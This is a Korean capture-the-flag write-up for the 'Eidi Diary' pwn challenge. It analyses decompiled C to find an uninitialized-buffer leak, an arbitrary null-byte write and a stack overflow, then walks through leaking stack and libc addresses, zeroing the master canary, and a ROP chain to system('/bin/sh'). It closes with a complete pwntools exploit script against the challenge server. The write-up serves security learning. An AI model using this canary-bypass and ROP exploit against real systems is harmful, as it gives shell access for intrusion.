

# Nowruz1404 writeup(pwn)

# Eidi Diary

### 보호 기법



### 코드 분석

```c
unsigned __int64 addEidi()
{
  unsigned __int16 v0; // ax
  __int64 v2; // [rsp+8h] [rbp-A8h] BYREF
  __int64 v3; // [rsp+10h] [rbp-A0h] BYREF
  char *v4; // [rsp+18h] [rbp-98h]
  char buf[136]; // [rsp+20h] [rbp-90h] BYREF
  unsigned __int64 v6; // [rsp+A8h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  printf("Enter the length of the giver's name: ");
  __isoc99_scanf("%lu", &v2);
  getchar();
  printf("Enter the name of the giver: ");
  v0 = 256;
  if ( (unsigned __int16)v2 <= 0x100u )
    v0 = v2;
  read(0, buf, v0);
  buf[v2] = 0;
  v4 = strdup(buf);
  printf("Enter the amount received: ");
  __isoc99_scanf("%lf", &v3);
  *((_QWORD *)&eidiList + 3 * eidiCount) = v4;
  qword_4050[3 * eidiCount] = v3;
  *((_WORD *)&unk_4048 + 12 * eidiCount++) = strlen(buf);
  puts("Eidi recorded successfully!");
  return v6 - __readfsqword(0x28u);
}
```

Eidi List에 entry를 추가하는 함수이다.

총 3가지의 취약점이 존재한다.

1. 입력받은 문자의 수와는 별개로 `strdup()`을 통해 문자열을 복사하고, buf가 초기화되지 않기 때문에 data leak이 가능하다.
2. 원하는 값을 v2에 입력받은 후 `buf[v2] = 0;` 을 실행하므로, Arbitrary Address Null Byte Overwrite가 가능하다.
3. 입력가능한 문자의 수가 최대 0x100으로, BOF가 발생한다. 하지만, Canary가 존재하기 때문에 이를 우회해야 한다.

```c
int viewEidis()
{
  int result; // eax
  int i; // [rsp+Ch] [rbp-4h]

  if ( !eidiCount )
    return puts("No Eidis recorded yet.");
  puts("List of Eidis Received:\n");
  for ( i = 0; ; ++i )
  {
    result = eidiCount;
    if ( i >= eidiCount )
      break;
    printf("%d. Amount: %.2lf From: ", (unsigned int)(i + 1), *(double *)&qword_4050[3 * i]);
    write(1, *((const void **)&eidiList + 3 * i), *((unsigned __int16 *)&unk_4048 + 12 * i));
  }
  return result;
}
```

저장된 Eidi List를 출력해 주는 함수이다.

### stack leak, libc leak

먼저 buf에 존재하는 메모리 값을 살펴보면 다음과 같다.


`buf + 0x10` 위치에 스택 주소가 존재하고, `buf + 0x18` 위치에 libc 주소가 존재한다.

1번 취약점에 의해 v2의 값을 임의의 큰 값으로 설정하고, 0x10바이트 만큼을 입력하면 stack 주소값이, 0x18바이트 만큼을 입력하면 libc 주소값이 `strdup()`을 통해 복사가 된다. 그 후 `viewEidis()` 함수를 호출하게 되면, stack 과 libc leak이 가능하다.

### Master Canary overwrite

로컬 환경에서 fs_base 주소를 확인해 보면, `libc base - 0x3000 + 0x740` 에 위치한 것을 확인 가능하다.


원격 서버의 경우, 1337을 input으로 넣으면 memory map을 확인할 수 있는데, 로컬에서와 동일하게 `libc base - 0x3000` 위치에 페이지가 할당되어 있는 것을 확인할 수 있고, 마찬가지로 fs_base가 존재할 것이라고 가정하였다. (사진은 못 구함)

```c
if ( v4 == 1337 )
{
  stream = fopen("/proc/self/maps", "r");
  while ( fgets(s, 256, stream) )
    printf("%s", s);
  fclose(stream);
  exit(0);
}
```

leak한 stack 주소와 libc 주소를 통해 offset을 계산한 후, 2번 취약점을 이용하면 Master Canary를 0으로 덮을 수 있다.

이 때, Master Canary를 1바이트씩 0으로 덮는 것이기 때문에 3번 취약점을 이용하여 Stack Canary의 값을 1바이트씩 늘려가며 0으로 덮어주어야 한다.

참고로 `addEidi()` 함수의 아래 부분을 보면,

```c
v0 = 256;
  if ( (unsigned __int16)v2 <= 0x100u )
    v0 = v2;
  read(0, buf, v0);
```

이 부분이 존재하는데, v2값이 0x88 이하로 설정되게 되면 BOF가 발생하지 않아 Stack Canary를 덮지 못해 확률은 낮지만 함수가 실패하는 경우가 생길 수 있다.

### ROP

Master Canary를 0으로 다 덮고 나면, leak한 libc 주소와 BOF를 사용하여 ROP를 진행하면 된다.

### 익스플로잇 코드

```python
from pwn import *
import ctypes

# r = process("./chall_patched")
r = remote("164.92.176.247", 4000)

def menu(cmd):
    r.sendlineafter(b"choice: ", str(cmd).encode())
    
def addEidi(length, name, amount):
    menu(1)
    r.sendlineafter(b"name: ", str(length).encode())
    r.sendafter(b"giver: ", name)
    r.sendlineafter(b"received: ", str(amount).encode())

def viewEidis():
    menu(2)

# stack leak
addEidi(0x100, b"A" * 0x10, 0)

# libc leak
addEidi(0x100, b"A" * 0x18, 0)
viewEidis()

r.recvuntil(b"A" * 0x10)
stack_addr = u64(r.recvn(6).ljust(8, b"\x00")) + 0x50 - 0x90
r.success(f"stack addr: {hex(stack_addr)}")

r.recvuntil(b"A" * 0x18)
libc_base = u64(r.recvn(6).ljust(8, b"\x00")) - 0x92ef3
r.success(f"libc base: {hex(libc_base)}")

# calculate Master Canary address
master_canary = libc_base - 0x3000 + 0x740 + 0x28
r.success(f"master canary: {hex(master_canary)}")

# calculate offset
offset = ctypes.c_uint64(master_canary - stack_addr).value
r.success(f"offset: {hex(offset)}")

# Master Canary NULL overwrite
for i in range(1, 8):
    addEidi(offset + i, b"A" * 0x88 + b"\x00" * (i + 1), 0)

# ROP
payload = b"\x00" * 0x98
payload += p64(libc_base + 0x000000000010f75b)      # pop rdi
payload += p64(libc_base + 0x1cb42f)                # /bin/sh
payload += p64(libc_base + 0x000000000010f75b + 1)  # ret
payload += p64(libc_base + 0x58750)                 # system

addEidi(0x100, payload, 0)

r.interactive()
```